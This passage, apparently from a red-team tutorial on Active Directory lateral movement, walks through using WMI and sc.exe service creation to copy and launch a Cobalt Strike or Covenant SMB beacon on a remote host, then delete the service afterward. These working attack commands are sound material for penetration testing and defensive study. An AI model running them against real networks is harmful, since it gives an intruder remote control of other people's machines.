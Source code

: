 Privilege and post exploitation of SQL servers is out of the scope of this post, the takeover is that with one of the account you compromised you may be able to log into a SQL server that supports AD authentication.

The things that can be achieved from there are:

* Data mining to find sensitive information;
* Privilege escalation and gain OS level command execution;
* Crawl DB links to see if we have access to other databases.


Now we should have a good understanding of the level of access that we have in the context of the network. Always remember to repeat all the aforementioned checks with all the accounts you compromised.

Armed with this knowledge, we're ready to start exploring the various techniques to access the resources we previously identified.

## WMI

Requires Admin | Local Group Membership | ATTACK ID
--- | --- | ---
Yes | `Administrators` | N/A

It is possible to use Windows Management Instrumentation (WMI) to create  processes within a remote machine. The syntax is quite simple and it is the following:

```
wmic /node:TARGET process call create "notepad.exe"
```

Just starting a remote process in probably not enough, we want control over the target machine. What we can do, for example, is uploading Cobalt Strike (or Covenant) SMB beacon into the target workstation and then use WMI to execute it:

```
shell copy smb-beacon.exe \\TARGET\C$\windows\temp
shell wmic /node:TARGET process call create “c:\windows\temp\smb-beacon.exe”

link TARGET
```

The command `link TARGET` is specific to Cobalt and it is used to connect to a named pipe that a SMB beacon opened (with Covenant should be `connect`).

This is not the only way of launching a beacon, for example you could use various one-liners without touching the disk. The same applies for all the techniques below.

## Remote Service Creation

Requires Admin | Local Group Membership | ATTACK ID
--- | --- | ---
Yes | `Administrators` | N/A

It is possible to create services within a remote machine using the `sc.exe` utility as following:

```
copy smb-beacon.exe \\TARGET\C$\windows\temp
sc \\TARGET create TestService binpath= "C:\windows\temp\smb-beacon.exe"
sc \\TARGET start TestService

# from cobalt
link TARGET

# clean
sc \\TARGET delete TestService
```
